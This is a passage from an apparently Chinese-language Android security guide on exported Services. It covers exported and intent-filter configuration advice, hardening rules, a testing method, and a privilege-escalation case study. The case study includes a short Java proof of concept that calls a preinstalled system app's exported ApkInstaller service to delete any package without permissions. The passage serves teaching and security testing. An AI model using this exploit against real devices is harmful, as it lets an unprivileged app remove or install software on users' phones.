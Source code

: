 ### intent-filter与exported组合建议

![](androidser3.jpg)

总结:
exported属性明确定义
私有service不定义intent-filter并且设置exported为false
公开的service设置exported为true,intent-filter可以定义或者不定义
内部/合作service设置exported为true,intent-filter不定义

### rule book

1.  只被应用本身使用的service应设置为私有

2.  service接收到的数据需要谨慎处理

3.  内部service 需使用签名级别的protectionLevel 来判断是否是内部应用调用

4.  不应在service创建(onCreate方法被调用)的时候决定是否提供服务,应在 onStartCommand/onBind/onHandleIntent 等方法被调用的时候做判断.

5.  当service 有返回数据的时候,应判断数据接收app是否有信息泄露的风险

6.  有明确的服务需调用时使用显式意图

7.  尽量不发送敏感信息

8.  合作service 需对合作公司的app 签名做效验

## 0x03 测试方法

1.  service不像broadcast receicer，它只能静态注册,通过反编译查看配置文件Androidmanifest.xml即可确定service,若有导出的service则进行下一步

2.  方法查看service类,重点关注 onCreate/onStarCommand/onHandleIntent 方法

3.  检索所有类中 startService/bindService 方法及其传递的数据

4.  根据业务情况编写测试poc或者直接使用adb命令测试

## 0x04 案例

### 案例1：权限提升

乐phone手机出厂默认包含一个名为jp.aplix.midp.tools的应用包。本应用以system权限运行，并向其他应用提供ApkInstaller服务，用来进行对Apk文件的安装和删除。通过向ApkInstaller服务传递构造好的参数，没有声明任何权限的应用即可达到安装和删除任意Package的行为，对系统安全性产生极大影响。

```
Intent in = new Intent();

in.setComponent(new ComponentName("jp.aplix.midp.tools","jp.aplix.midp.tools.ApkInstaller"));

in.putExtra("action", "deleteApk");

in.putExtra("pkgName", "xxxxx");

startService(in); 
```

